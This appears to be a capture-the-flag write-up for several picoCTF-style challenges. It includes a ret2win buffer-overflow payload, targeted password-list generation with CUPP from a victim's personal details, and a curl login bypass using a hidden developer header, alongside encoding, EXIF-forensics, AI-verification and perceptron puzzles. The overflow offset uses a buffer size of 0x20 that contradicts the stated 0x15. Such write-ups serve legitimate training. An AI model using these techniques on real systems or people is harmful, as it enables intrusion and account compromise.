Symbols are present, so the binary is not stripped.


### Question 4
**Buffer size?**

Answer:
```text
0x15
```

Inspecting the source code reveals:
```c
char buffer[0x15];
```


### Question 5
**How many bytes are read?**

Answer:
```text
0x90
```

The program reads:
```c
fgets(buffer, 0x90, stdin);
```

### Question 6
**Is there a buffer overflow vulnerability?**

Answer:
```text
yes
```

Since:
```text
Buffer size = 0x15
Input size  = 0x90
```

More bytes are read than the buffer can hold.

### Question 7
**Name a standard C function that could cause a buffer overflow.**

Answer:
```text
fgets
```

The vulnerable function is:

```c
fgets()
```

because it reads far more bytes than the buffer can hold.

### Question 8
**Which function is not called anywhere in the program?**

Answer:
```text
win
```

The source contains:

```c
void win()
{
    ...
}
```
but it is never called.

### Question 9
**What type of attack could exploit this vulnerability?**

Answer:
```text
buffer overflow
```

### Question 10
**How many bytes of overflow are possible?**

Answer:
```text
0x7b
```

The vulnerability is caused by writing beyond the buffer boundary.

Buffer:
```text
0x15 bytes
```

Input:
```text
0x90 bytes
```

Overflow:
```text
0x90 - 0x15 = 0x7b
```

### Question 11
**What protection is enabled?**

Answer:
```text
NX
```

Run:
```bash
checksec --file=./vuln
```

Output:
```text
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE
SHSTK: Enabled
IBT: Enabled
Stripped: No
```

### Question 12
**What technique could bypass NX?**

Answer:
```text
ROP
```

### Question 13
**Address of win()?**

Answer:
```text
0x401176
```


NX prevents execution of injected shellcode on the stack.

The standard bypass is:
```text
ROP
```

(Return-Oriented Programming)


Using `nm`:

```bash
nm vuln | grep " win"
```

Output:
```text
0000000000401176 T win
```

Using `objdump`:

```bash
objdump -d vuln | grep "<win>"
```

Output:
```text
0000000000401176 <win>:
```

Using `gdb`:
```bash
gdb ./vuln
info functions win
```

Output:
```text
0x0000000000401176 win
```


The challenge only required answering questions, but the binary is a classic ret2win challenge.


```text
buffer      = 0x20 bytes
saved RBP   = 8 bytes
saved RIP   = target
```

Offset to RIP:

```text
0x20 + 0x8 = 40 bytes
```

Exploit payload:

```python
from pwn import *

payload = b"A"*40
payload += p64(0x401176)
```

or:

```bash
python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*40 + struct.pack("<Q",0x401176))'
```

This would redirect execution to the `win()` function.


Finally we get the flag after answering all questions.


## Password Profiler
The challenge provides:

```
Name: Alice Johnson
Nickname: AJ
Partner: Bob
Child: Charlie
Birthdate: 15-07-1990
```

Password Hash
```
968c2349040273dd57dc4be7e238c5ac200ceac5
```

The provided script reads a wordlist (`passwords.txt`), hashes every candidate using SHA-1, and compares it against the target hash.

Therefore, the intended solution is to generate a custom wordlist based on the victim's personal information.


## Using CUPP
CUPP (Common User Passwords Profiler) is a tool that generates targeted password lists using personal information.

- CUPP (Common User Passwords Profiler): https://github.com/Mebus/cupp

Run:
```bash
python3 cupp.py -i
```

Enter the information from `userinfo.txt`:
```text
 ___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Alice
> Surname: Johnson
> Nickname: AJ
> Birthdate (DDMMYYYY): 15071990


> Partners) name: Bob
> Partners) nickname:
> Partners) birthdate (DDMMYYYY):


> Child's name: Charlie
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name:
> Company name:


> Do you want to add some key words about the victim? Y/[N]:
> Do you want to add special chars at the end of words? Y/[N]:
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]:

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to alice.txt, counting 5180 words.
> Hyperspeed Print? (Y/n) :
[+] Now load your pistolero with alice.txt and shoot! Good luck!
```

CUPP generates a large password dictionary containing combinations such as:
```text
Alice1990
AJ1990
Aj_15901990
AliceAj1990
Johnson1990
...
```

The generated wordlist contained the candidate:
```text
Aj_15901990
```

Now running `check_password.py` with the password list

```bash
python3 check_password.py
```
Gives the flag


## Crack the Gate 1
Opening the page source of the wabpage login page (`Ctrl + U`) reveals.

```html
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
```

The text appears to be encoded using **ROT13**.

Decoding with ROT13 gives:

```text
NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"
```

We are already given the username, but we dont know the password.
```
ctf-player@picoctf.org
```

By using `curl` with this command we can bypass password authentication.

```bash
curl -X POST "http://amiable-citadel.picoctf.net:57474/login" \
  -H "Content-Type: application/json" \
  -H "X-Dev-Access: yes" \
  -d '{"email":"ctf-player@picoctf.org","password":"anything"}'
```

This gives us the flag.


## Log Hunt

We have a log file, running `cat` on it gives us a lot of system logs.

Running cat with grep `pico`
```bash
cat server.log | grep "pico"
```


Shows some output where part of the flag exists and its under `INFO FLAGPART`

Now using grep with `FLAGPART`
```bash
cat server.log | grep FLAGPART
```


Merging all the four parts of the flag into one gives us the flag.


## MultiCode
The contents of `message.txt` are:
```text
NjM3NjcwNjI1MDQ3NTMyNTM3NDI2MTcyNjY2NzcyNzE1ZjcyNjE3MDMwNzE3NjYxNzQ1ZjczMzM2ZTMyMzQ3MzM3MzMyNTM3NDQ=
```

This resembles a Base64-encoded string.

**Base64**

Decode the message using Base64:

```bash
echo "NjM3NjcwNjI1MDQ3NTMyNTM3NDI2MTcyNjY2NzcyNzE1ZjcyNjE3MDMwNzE3NjYxNzQ1ZjczMzM2ZTMyMzQ3MzM3MzMyNTM3NDQ=" | base64 -d
```

Output:
```text
637670625047532537426172666772715f72617030717661745f73336e3234733733253744
```

The output is a hexadecimal string.

**Hex**

Convert the hexadecimal string back to ASCII.
```bash
echo "637670625047532537426172666772715f72617030717661745f73336e3234733733253744" | xxd -r -p
```

Output:
```text
cvpbPGS%7Barfgrq_rap0qvat_s3n24s73%7D
```

The `%7B` and `%7D` indicate URL encoding.


**URL Encoding**

Decode the URL-encoded characters.

Using Python:
```bash
python3 -c 'import urllib.parse; print(urllib.parse.unquote("cvpbPGS%7Barfgrq_rap0qvat_s3n24s73%7D"))'
```

Output:
```text
cvpbPGS{arfgrq_rap0qvat_s3n24s73}
```

The text resembles a ROT13-encoded string.

**ROT13**

Decode the final layer using ROT13.

```bash
python3 -c 'import codecs; print(codecs.decode("cvpbPGS{arfgrq_rap0qvat_s3n24s73}", "rot_13"))'
```

Output:
```text
picoCTF{nested_enc0ding_f3a24f73}
```
Finally we get the flag.


## Blast from the past
Target timestamp:
```
1970:01:01 00:00:00.001+00:00
```

Inspect all metadata using ExifTool:

```bash
exiftool original.jpg
```

Relevant timestamps:
```
Modify Date
Date/Time Original
Create Date
Sub Sec Time
Sub Sec Time Original
Sub Sec Time Digitized
Time Stamp
```

To view every timestamp along with its metadata group:
```bash
exiftool -a -G1 -s original.jpg | grep -Ei "time|date"
```

Output:
```
[IFD0]      ModifyDate
[ExifIFD]   DateTimeOriginal
[ExifIFD]   CreateDate
[ExifIFD]   SubSecTime
[ExifIFD]   SubSecTimeOriginal
[ExifIFD]   SubSecTimeDigitized
[Samsung]   TimeStamp
```

Create a copy of the original image.
```bash
cp original.jpg tmp.jpg
```

Modify Standard EXIF Timestamps

```bash
exiftool -overwrite_original \
'-ModifyDate=1970:01:01 00:00:00' \
'-DateTimeOriginal=1970:01:01 00:00:00' \
'-CreateDate=1970:01:01 00:00:00' \
'-SubSecTime=001' \
'-SubSecTimeOriginal=001' \
'-SubSecTimeDigitized=001' \
tmp.jpg
```

Verify:
```bash
exiftool tmp.jpg | grep -E "Date|Time|Sub Sec"
```

The checker now accepted the first six timestamps.


The checker still failed on:
```
Samsung: TimeStamp
```

ExifTool reported:
```
Time Stamp : 2023:11:21 02:16:21.420+05:30
```

Attempting to modify it directly failed:

```bash
exiftool \
'-Samsung:TimeStamp=1970:01:01 00:00:00.001+00:00' \
tmp.jpg
```

Output:
```
Warning: Samsung:TimeStamp doesn't exist or isn't writable
```

Generate a verbose dump:
```bash
exiftool -v3 tmp.jpg > verbose.txt
```

Locate the Samsung timestamp:
```bash
grep -A20 -B20 "TimeStamp" verbose.txt
```

Relevant output:
```
Samsung trailer

Image_UTC_Data1700513181420

TimeStamp = 1700513181420
```

The timestamp was stored as a Unix timestamp in milliseconds inside Samsung's proprietary trailer.

Hex location:
```
Offset: 0x2b82c4
```

Stored value:
```
1700513181420
```

Unix epoch with 1 ms is:
```
1
```

Since the trailer stores a fixed-length ASCII string, replace

```
1700513181420
```

with
```
0000000000001
```

using:
```bash
printf "0000000000001" | dd of=tmp.jpg bs=1 seek=$((0x2b82c4)) conv=notrunc
```


Run the checker:
```bash
nc mimas.picoctf.net 56727 < tmp.jpg
```

Output:

```
Checking tag 1/7
Great job!

...

Checking tag 7/7
Found: 1970:01:01 00:00:00.001+00:00
Great job!

You did it!
```
Below we get the flag.


## Trust But Verify

Connect to the challenge:
```bash
nc aureolin-pixie.cylabacademy.net 63892
```

The story follows a student named **Ren**, assisted by an AI companion called **ARIA**. Throughout the story, ARIA provides statistics, code, and citations, and the player must decide whether to trust or verify the information.

ARIA provides the following statistic:
> "Every year, over 500 million metric tons of plastic enter the world's oceans."

Options:
```
A) Type it directly into the proposal
B) Ask ARIA for the exact source
C) Look it up independently
```

Correct Choice
```
B
```

ARIA admits that it generated a plausible-looking citation that doesn't actually exist. This demonstrates that AI models can hallucinate sources and statistics.

ARIA generates Python code:
```python
data  = [8, 9, 10, 11, 13, 14]
years = [2017, 2018, 2019, 2020, 2021, 2022]

average = sum(data) / len(years) + 1
print(f"Average annual input: {average:.2f} million metric tons")
```

Options:
```
A) Run it immediately
B) Read through it carefully
```

Correct Choice

```
B
```

Upon inspection, the unnecessary `+ 1` is discovered.

Correct code:
```python
average = sum(data) / len(years)
```

This illustrates that AI-generated code should always be reviewed before execution.


ARIA claims:
> "Microplastics have now been detected in human blood..."

and cites:
* Dr. Heather Leslie
* Vrije Universiteit Amsterdam
* Year: 2021

Options:
```
A) Use it immediately
B) Verify it
```

Correct Choice
```
B
```

Verification reveals:
* Researcher: Correct
* University: Correct
* Publication: Real
* Publication Year: **2022**, not 2021
* The findings are **preliminary**, not definitive

Even when AI is mostly correct, small factual errors can still exist.


At the end of the story, ARIA reveals the flag:


## Perceptron Train XOR

This challenge demonstrates how a **single-layer perceptron** learns using the classic perceptron learning rule on the XOR dataset.

The objective is to tune the learning rate and train the perceptron until it reaches **75% accuracy**, which is the maximum possible accuracy for a single perceptron on XOR data.

Challenge URL:

```text
http://aureolin-pixie.cylabacademy.net:50042/
```

The XOR truth table is:

| x₁ | x₂ | Target |
| -- | -- | ------ |
| 0  | 0  | 0      |
| 0  | 1  | 1      |
| 1  | 0  | 1      |
| 1  | 1  | 0      |

Unlike datasets such as AND or OR, XOR is **not linearly separable**.

A single perceptron can only learn a **linear decision boundary**, so it is impossible for it to correctly classify all four XOR samples.

Therefore,

* Maximum possible accuracy = **75%**
* Perfect accuracy (100%) is impossible using a single-layer perceptron.


Open the challenge webpage.

Set the learning rate to:

```text
0.02
```

Click:

```
Run training
```

The perceptron performs up to **16 updates** using the classic perceptron update rule.

The training converges with:

```
Final accuracy: 75%
```

which satisfies the challenge requirement.

Final parameters:
```text
w1 = 1.00
w2 = -1.00
b  = -0.04
```

Training log:
| Step | Sample      | Prediction | Error | w₁   | w₂    | b     | Accuracy |
| ---- | ----------- | ---------- | ----- | ---- | ----- | ----- | -------- |
| 1    | (-2,-2) → 0 | 1          | -1    | 1.04 | -0.96 | -0.02 | 50%      |
| 2    | (2,2) → 0   | 1          | -1    | 1.00 | -1.00 | -0.04 | 75%      |

The resulting decision boundary correctly classifies **3 out of 4** samples.

A perceptron creates only a **single straight-line decision boundary**.

The XOR dataset requires **multiple decision boundaries** (or a hidden layer), making it impossible for a single perceptron to achieve 100% accuracy.

This challenge illustrates one of the fundamental limitations that motivated the development of **multi-layer neural networks**.


Finally we get the flag




